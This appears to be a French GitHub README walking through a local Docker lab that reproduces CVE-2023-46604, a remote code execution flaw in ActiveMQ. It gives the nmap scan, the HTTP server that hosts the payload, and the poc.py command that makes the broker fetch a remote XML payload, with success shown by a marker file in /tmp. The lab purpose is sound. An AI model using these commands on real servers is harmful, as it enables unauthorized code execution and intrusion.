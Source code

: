 CVE 2023-46604

Pour commencer, lancez ActiveMQ en arrière-plan dans le dossier activemq_2023 en utilisant:

docker compose up -d

![Capture d’écran 2024-10-28 à 12 38 08](https://github.com/user-attachments/assets/d8f89a89-5db4-443e-ac48-01ada7163acd)

Accédez ensuite à l'interface ActiveMQ dans un navigateur à l'adresse :

http://localhost:8161/admin/

Vous verrez la version d'ActiveMQ, ici (5.17.3) :

![Capture d’écran 2024-10-28 à 12 39 45](https://github.com/user-attachments/assets/1a11852e-ada9-4ece-b2b3-b92e99d1fdbc)

On peut aussi voir la version de activemq dans le fichier docker-compose.yml:

![Capture d’écran 2024-10-28 à 12 40 48](https://github.com/user-attachments/assets/3f82642d-676b-49d2-9f2f-c72d4246717f)

Pour scanner le réseau afin d'identifier les services actifs et leurs versions avec la commande : nmap -p- 192.168.1.145

![Capture d’écran 2024-10-28 à 12 42 12](https://github.com/user-attachments/assets/2377b011-43e0-498a-8ba0-d0a664806038)



Ensuite, pour exploiter ce CVE, ouvrez un port avec la commande suivante :
python3 -m http.server -b 192.168.1.145 6666

![Capture d’écran 2024-10-28 à 12 46 15](https://github.com/user-attachments/assets/89c32c5d-d091-4c45-bbf2-ee755b80f622)

Utilisez ensuite les fichiers poc.py et poc.xml pour envoyer la commande suivante :
python3 poc.py localhost 61616 http://192.168.1.145:6666/poc.xml

Vous pouvez vérifier que la commande a bien été reçue sur le port :
![Capture d’écran 2024-10-28 à 12 49 13](https://github.com/user-attachments/assets/9a0caee3-f648-454d-81c5-5d301b22ccf4)

Ensuite, en écrivant: docker ps -a on peut identifier l'id du container ouvert et qui correspond a activemq.
Grace a cette id on effectue cette commande pour accédez au conteneur:
docker exec -it 55cfcd6ae598 /bin/bash

Enfin, vérifiez dans le dossier /tmp pour voir si l'injection a réussi :
ls -l /tmp/

On  devrait avoir un fichier crée comme celui ci:
-rw-r--r-- 1 root root    0 Oct 28 11:48 activeMQ-RCE-success

Nous avons réussi à créer le fichier activeMQ-RCE-success, ce qui constitue une preuve de l'exécution réussie de l'injection de code à distance à travers une requête malveillante.

![Capture d’écran 2024-10-28 à 12 51 17](https://github.com/user-attachments/assets/569e6db0-2661-4830-94e3-3a686ab5b218)

Cet exploit montre comment CVE-2023-46604 permet une exécution de code à distance via l'injection d'une payload dans ActiveMQ, ouvrant ainsi des voies d'accès non autorisées au système.

